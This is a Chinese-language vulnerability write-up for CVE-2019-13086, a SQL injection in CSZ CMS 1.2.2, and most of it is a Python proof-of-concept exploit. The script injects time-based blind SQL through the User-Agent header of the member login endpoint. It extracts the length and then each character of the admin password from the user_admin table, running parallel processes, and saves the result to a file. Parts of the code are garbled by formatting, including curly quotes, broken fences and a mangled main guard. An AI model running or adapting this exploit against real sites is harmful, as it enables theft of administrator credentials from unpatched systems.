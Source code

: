 ```yaml
---
title: "（CVE-2019-13086）CSZ CMS 1.2.2 sql注入漏洞"
id: zhfly2860
---
```


# （CVE-2019-13086）CSZ CMS 1.2.2 sql注入漏洞

## 一、漏洞简介

CSZ CMS是一套基于PHP的开源内容管理系统（CMS）。 CSZ CMS 1.2.2版本（2019-06-20之前）中的core/MY_Security.php文件存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

## 二、漏洞影响

CSZ CMS 1.2.2版本（2019-06-20之前）

## 三、复现过程

### poc

```
import requests
import time
import threading
import multiprocessing

pool=“admin$ABCDEFGHIJKLMNOPQRSTUVWXYZ”+" "+“bcefghjklopqrstuvwxyz1234567890/.”

mutex=0

#获取长度用的User-Agent模板

ual="’-(if((length((select name from user_admin limit 1))=10),sleep(5),1))-’’, ‘127.0.0.1’,‘time’) #"

#“Why don’t you just build something”

#----------------------------------------------------获取管理员用户名长度--------------------------------------------

def getlength(field,tbname,total):

ual_head="’-(if((length((select "		#这些空格一定要保留

ual_middle=" limit 1))="

num=1

ual_last="),sleep(5),1))-’’, ‘127.0.0.1’,‘time’) #"

```
datas={'email':'111@111.com',
	'password':'111'
}

header={'Host': 'localhost',
		'Content-Length': '74',
		'Cache-Control': 'max-age=0',
		'Origin': 'http://localhost',
		'Upgrade-Insecure-Requests': '1',
		'Content-Type': 'application/x-www-form-urlencoded',
		'User-Agent': ual,
		'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
		'Referer': 'http://localhost/cszcms/member/login',
		'Accept-Encoding': 'gzip, deflate',
		'Accept-Language': 'zh-CN,zh;q=0.9',
		'Connection': 'close'}

starttime=time.time()
for num in range(total):
	header['User-Agent']=ual_head+field+" from "+tbname+ual_middle+str(num)+ual_last
	#print(header['User-Agent'])
	sendtime=time.time()
	response=requests.post(r"http://localhost/cszcms/member/login/check/post",data=datas,headers=header)
	recvtime=time.time()

	doesitwork=recvtime-sendtime
	if(doesitwork&gt;5):
		print("The length is",num)
		print("This step cost:",time.time()-starttime)
		return num
		break
	if(num==total-1):
		return 0 
```

#获取内容用的User-Agent模板

ua="’-(if((ascii(substr((select name from user_admin limit 1), 1, 1))=97),sleep(5),1))-’’, ‘127.0.0.1’,‘time’) #"

#-----------------------------------------------------获取管理员用户名--------------------------------------------

def getcontent(field,tbname,num,qr,lock):

```
#print(num)
pool="@.tescomadin$ABCDEFGHIJKLMNOPQRSTUVWXYZ"+" "+"bcefghjklpqrstuvwxyz1234567890/."

result=[]

ua_head="'-(if((ascii(substr((select "
ua_front=" limit 1), "
ua_middle=", 1))="
char="A"
ua_last="),sleep(5),1))-'', '127.0.0.1','time') #"

datas={'email':'111@111.com',
	'password':'111'
}

header={'Host': 'localhost',
		'Content-Length': '74',
		'Cache-Control': 'max-age=0',
		'Origin': 'http://localhost',
		'Upgrade-Insecure-Requests': '1',
		'Content-Type': 'application/x-www-form-urlencoded',
		'User-Agent': ua,
		'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
		'Referer': 'http://localhost/cszcms/member/login',
		'Accept-Encoding': 'gzip, deflate',
		'Accept-Language': 'zh-CN,zh;q=0.9',
		'Connection': 'close'}

for i in range(1):
	for char in pool:
		header['User-Agent']=ua_head+field+" from "+tbname+ua_front+str(num+1)+ua_middle+str(ord(char))+ua_last
		#print(header['User-Agent'])

		lock.acquire()
		sendtime=time.time()
		response=requests.post(r"http://localhost/cszcms/member/login/check/post",data=datas,headers=header)
		lock.release()

		recvtime=time.time()

		doesitwork=recvtime-sendtime
		if(doesitwork&gt;5):
			#print("It cost:",doesitwork)
			print(num," got:",char)
			#adminnamelist[num]=char	
			result=[num,char]
			qr.put(result)
			break 
```

#---------------------------------------------现在！让我们重新揭起救世的大旗！------------------------------------

if **name**==‘**main**’:

```
qr=multiprocessing.Queue()
lock=multiprocessing.Lock()

field="password"
tbname="user_admin"

adminname=""
adminpwd=""

getresult=[]

#调用获得长度的函数
length=getlength(field,tbname,100)	
print("length is",length)

processes=[]

#开线程分别对每个字符匹配
timehead=time.time()

for ti in range(length):
	processes.append(multiprocessing.Process(target=getcontent,args=(field,tbname,ti,qr,lock)))
	processes[ti].start()

for ti in range(length):
	processes[ti].join()

fout=open(field+"out.txt","w+")
for ci in range(length):
	getresult.append(qr.get())
print(getresult)
for ci in range(length):
	for result in getresult:
		if(result[0]==ci):
			print(result[1])
			adminname+=result[1]

fout.write(adminname)
print(field,":",adminname)
fout.close()
print("It took:",time.time()-timehead) 
``` 
```